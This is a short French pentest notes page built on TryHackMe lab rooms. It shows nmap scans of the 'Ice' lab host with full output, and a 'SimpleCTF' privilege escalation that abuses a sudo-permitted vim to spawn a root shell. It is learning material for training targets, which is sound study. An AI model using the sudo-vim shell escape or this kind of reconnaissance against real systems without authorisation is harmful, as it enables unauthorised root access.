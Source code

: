# Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version
* -sC : affiche les scripts par défaut qui sont activés

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    $ sudo nmap -sS -Pn -sV 10.10.188.70
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:24 CEST
    Nmap scan report for 10.10.188.70
    Host is up (0.13s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE       VERSION
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    3389/tcp  open  ms-wbt-server Microsoft Terminal Service
    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    8000/tcp  open  http          Icecast streaming media server
    49152/tcp open  msrpc         Microsoft Windows RPC
    49153/tcp open  msrpc         Microsoft Windows RPC
    49154/tcp open  msrpc         Microsoft Windows RPC
    49158/tcp open  msrpc         Microsoft Windows RPC
    49159/tcp open  msrpc         Microsoft Windows RPC
    49161/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 96.35 seconds

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    $ sudo nmap -sS -sC 10.10.188.70
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:29 CEST
    Nmap scan report for 10.10.188.70
    Host is up (0.16s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    5357/tcp  open  wsdapi
    8000/tcp  open  http-alt
    |_http-title: Site doesn't have a title (text/html).
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49158/tcp open  unknown
    49159/tcp open  unknown
    49161/tcp open  unknown

    Host script results:
    |_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
    |_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e6:92:75:0f:81 (unknown)
    | smb-os-discovery: 
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: Dark-PC
    |   NetBIOS computer name: DARK-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-09-24T10:29:37-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-09-24T15:29:36
    |_  start_date: 2021-09-24T15:18:11

    Nmap done: 1 IP address (1 host up) scanned in 138.91 seconds


### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)
    $ sudo -l
    User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

    $ sudo vim -c ':!/bin/sh'
    '# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G
    /bin/sh: 1: ot found
    /bin/sh: 1: 2R: not found
    '# whoami
    root



